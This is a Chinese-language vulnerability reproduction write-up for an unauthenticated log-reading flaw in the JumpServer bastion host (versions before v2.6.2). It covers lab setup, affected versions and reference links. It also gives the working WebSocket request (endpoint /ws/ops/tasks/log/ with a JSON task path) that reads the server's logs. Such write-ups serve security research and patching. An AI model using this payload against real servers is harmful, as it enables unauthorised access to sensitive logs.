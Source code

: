 # 0x00 软件介绍
JumpServer：一款在中国流行的开源堡垒机

# 0x01 复现环境
本地环境：centos7 x64  
复现版本：JumpServer v2.6.1  
环境搭建：  
1、使用官方提供的v2.6.1的quick_start.sh安装后，竟然后v2.6.2，这个坑真是无语了，使用知识星球师傅提供的安装脚本，安装后是v2.6.1（这个安装脚本执行后可能会报错，多试试几次）  
2、执行quick_start.sh后，一路默认即可  
3、安装完成后需要切换到/opt/jumpserver-installer-v2.6.1/下执行jmsctl.sh，直接使用绝对路径会报错  
4、需要开启iptables，否则报错

# 0x02 利用条件
无

# 0x03 影响版本
JumpServer < v2.6.2  
JumpServer < v2.5.4  
JumpServer < v2.4.5

# 0x04 漏洞复现
攻击环境：kali x64  
chrome下安装扩展：https://chrome.google.com/webstore/detail/websocket-test-client/fgponpodhbmadfljofbimhhlengambbn/related  
访问搭建的环境：  
```
ws://192.168.1.73:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图  
![image](./a1.png)  
红色圈出的部分即为读取到的远程服务器上的日志内容  
如下图  
![image](./a0.png)  
红色圈出的部分即为服务器上的日志内容

# 0x05 批量脚本
无

# 0x06 参考链接
https://articles.zsxq.com/id_5raonmuwqrru.html  
https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247497420&idx=1&sn=49b6179b24a4275f016a80b16ba401aa&chksm=ec9f2fbfdbe8a6a9318f7ba90eaca911692ae24f72591225efb19eab4852cf8e893936ee2a06&mpshare=1&scene=1&srcid=01183gic1iE9CgPOeU1ZKNoQ&sharer_sharetime=1610978241607&sharer_shareid=39e4b7efe0bb5b2e5770f3a926f3062d&exportkey=AUvxarwZSXcAl0lXgRSI%2F2o%3D&pass_ticket=rI5WvWxPWj9wFDSMj42xLhizShWaMpx4MwP7SFhDHLUZpJ0zrnUrOlEEfOlgFO8t&wx_header=0#rd
